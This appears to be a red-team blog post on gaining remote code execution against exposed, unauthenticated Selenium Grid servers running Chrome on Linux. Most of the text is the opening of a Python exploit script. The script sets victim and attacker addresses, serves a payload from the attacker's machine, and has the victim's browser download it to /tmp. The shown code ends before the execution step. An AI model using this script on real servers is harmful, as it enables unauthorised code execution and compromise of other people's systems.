 ```yaml
---
title: Selenium Grid RCE - Chrome on Linux
date: 2022-09-12T13:41:09-07:00
draft: false
description: How to get RCE on exposed Selenium Grid servers for linux
---
```


Selenium is an awesome tool that you can use to completely drive a web browser through a nice and simple python interface. There's lots of cool possibilities to use this for red teaming, however the simplest is that it can provide a trivial vector for RCE when unauthenticated.

There are several publicly available exploits for Selenium Grid, however during testing I found that most of them were either low quality or do not work on unix environments due to the executable filesystem permission. Let's skip to the good part:

```python
import socketserver
import threading
import time
import argparse
import posixpath
import urllib
import os
import signal
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.desired_capabilities import DesiredCapabilities
from selenium.webdriver.chrome.options import Options
from http.server import HTTPServer, BaseHTTPRequestHandler

# parsers
parser = argparse.ArgumentParser()
parser.add_argument("-u", "--url", required=True,
   help="IP Selenium is running on")
parser.add_argument("-p", "--port", required=True,
   help="Port selenium is running on")
parser.add_argument("-e", "--exploit", required=True,
   help="Path to exploit")
parser.add_argument("-w", "--web", required=True,
   help="IP of machine hosting exploit (Should be attackers machine)")
args = parser.parse_args()


# attacker info
payload_name = args.exploit
attack_url = args.web
attack_full = f"http://{attack_url}:8000/{payload_name}"
attack_dl = f"http://{attack_url}:8000/download"

# victim info
vic_url = args.url
vic_port = args.port
vic_full = f"http://{vic_url}:{vic_port}/wd/hub"

# download path (Where chrome downloads the binary. needs to be writeable)
download_dir = "/tmp"
full_exploit = f"{download_dir}/{payload_name}"
download = f"<a href='{attack_full}' id='raw-url'>Download</a>"

driver = None

def alarm_handler(signum, frame):
    raise Exception("Time!")
```